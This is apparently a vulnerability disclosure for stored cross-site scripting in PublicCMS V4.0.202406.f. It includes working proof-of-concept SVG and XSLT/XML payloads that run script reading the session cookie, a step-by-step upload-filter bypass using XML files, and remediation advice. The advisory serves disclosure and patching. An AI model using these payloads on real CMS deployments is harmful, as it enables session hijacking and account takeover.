









## Vulnerability Author: 

c0rdXy

## Affected Version: 

PublicCMS V4.0.202406.f


## Vendor:

www.publiccms.com

https://github.com/sanluan/PublicCMS

https://github.com/sanluan/PublicCMS/releases

## Vulnerability File:

com/publiccms/controller/admin/cms/CmsWebFileAdminController.java

## Vulnerability Description:

PublicCMS V4.0.202406.f was discovered to contain a cross-site scripting (XSS) vulnerability via a crafted script to the Category Managment feature

## Vulnerability hazards

After a successful attack using XSS code, malicious users may get high permissions. The XSS vulnerability mainly has the following hazards:

1. Steal various user accounts;
2. Steal the user's Cookie information, impersonate the user's identity to enter the website;
3. Hijack user sessions and perform arbitrary operations; Refers to operating the user's browser;
4. Brush stream display, execution of commercial advertising;
5. Spread worms;
6. And so on...

## Payload_1

### svg

Open the Website File Management function point in the File ribbon and click the Create File button.


Create an svg file, enter the following content, and save it.

```svg
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
"http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900"
stroke="#004400"/>
<script type="text/javascript">alert(document.cookie);</script>
</svg>
```



Same reason.

```svg
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
"http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900"
stroke="#004400"/>
<script type="text/javascript">alert('XSS');</script>
</svg>
```



Click the View button.


The XSS vulnerability is successfully triggered and the current cookie information is obtained.




### xml

Similarly, upload the xml file and put the following code in respectively. Note that two xml files need to be uploaded here.

The first xml file.

```xml
<?xml version="1.0" encoding="iso-8859-1"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
<html><body>
<script>alert(document.cookie);</script>
</body></html>
</xsl:template>
</xsl:stylesheet>
```


In the second XML file, put the URL of the first XML file in the href attribute.

```xml
<?xml version="1.0" encoding="iso-8859-1"?>
<?xml-stylesheet type="text/xsl" href="http://127.0.0.1:8080/webfile/1.xml"?>
<test></test>
```


At this time, click to view the second XML file and successfully trigger the XSS vulnerability.


Same reason.


## Payload_2

Click the Upload File button.



When trying to upload an svg file, it says the file is unsafe and cannot be uploaded.



At this point we try to upload the xml file and it is uploaded successfully.





We continue to upload the second XML file and then check it. The XSS vulnerability is successfully triggered.





## Modification suggestion

* It is recommended to encode the input and output parameters in an entity format.
* It is recommended that you do not enable the online viewing function for svg and xml, and click to view the source file directly.
* It is recommended to prohibit illegal file uploading.
